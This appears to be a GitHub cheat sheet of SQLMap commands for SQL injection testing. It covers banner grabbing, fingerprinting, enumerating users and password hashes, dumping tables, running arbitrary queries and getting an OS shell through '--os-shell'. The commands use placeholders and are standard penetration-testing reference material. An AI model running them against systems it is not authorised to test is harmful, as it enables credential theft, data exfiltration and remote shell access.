 # **SQLMap commands**

**Test URL and POST data and return database banner (if possible)**
```plaintext
./sqlmap.py --url="<url>" --data="<post-data>" --banner
```

**Test Multiple URLs with default values and extract database names, saving results**
```plaintext
./sqlmap.py -m urls.txt --batch --dbs --output-dir=result
```

**Parse request data and test (request data can be obtained with Burp)**
```plaintext
./sqlmap.py -r <request-file> <options>
```

**Fingerprint (provides more information than banner)**
```plaintext
./sqlmap.py -r <request-file> --fingerprint
```

**Get database username, name, and hostname**
```plaintext
./sqlmap.py -r <request-file> --current-user --current-db --hostname
```

**Check if user is a database admin**
```plaintext
./sqlmap.py -r <request-file> --is-dba
```

**Get database users and password hashes**
```plaintext
./sqlmap.py -r <request-file> --users --passwords
```

**Enumerate databases**
```plaintext
./sqlmap.py -r <request-file> --dbs
```

**List tables for one database**
```plaintext
./sqlmap.py -r <request-file> -D <db-name> --tables
```

**Other database commands**
```plaintext
./sqlmap.py -r <request-file> -D <db-name> --columns
              --schema
              --count
```

**Enumeration flags**
```plaintext
./sqlmap.py -r <request-file> -D <db-name>
                  -T <tbl-name>
                  -C <col-name>
                  -U <user-name>
```

**Extract data**
```plaintext
./sqlmap.py -r <request-file> -D <db-name> -T <tbl-name> -C <col-name> --dump
```

**Execute SQL Query**
```plaintext
./sqlmap.py -r <request-file> --sql-query="<sql-query>"
```

**Append/Prepend SQL Queries**
```plaintext
./sqlmap.py -r <request-file> --prefix="<sql-query>" --suffix="<sql-query>"
```

**Get backdoor access to SQL server (can provide shell access)**
```plaintext
./sqlmap.py -r <request-file> --os-shell
```
